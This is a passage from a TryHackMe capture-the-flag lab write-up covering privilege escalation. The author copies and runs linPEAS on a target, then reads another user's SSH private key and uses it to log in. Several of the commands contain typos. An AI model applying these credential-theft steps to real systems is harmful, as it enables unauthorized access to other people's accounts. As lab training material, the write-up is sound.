I first copied the linPEAS script that is already available on the THM machine into the target machine using SCP, a way
to transfer files between two machines.

![SCP](./img/basicpentesting/scp.webp)

After which, I made the script into an executable and ran it, piping the output to both the console and linpeas.txt.

```bash
cd/dev/shm
chmod +x linpeas.sh
./linpeas.sh | tee linpeas.txt
```

LinPEAS did identify that there is an id_rsa file which should have the SSH private key, so we can retrieve it back to
the host, and now it gets more interesting!

```bash
cd /home/kay
ls
cd. ssh/

ls -la
cat id_rsa

nano kay_id_rsa
chmod 600 kay_id_rsa
ssh -i kay_id_rsa kay kay@10.10.38.122
```

![SSH](./img/basicpentesting/ssh.webp)
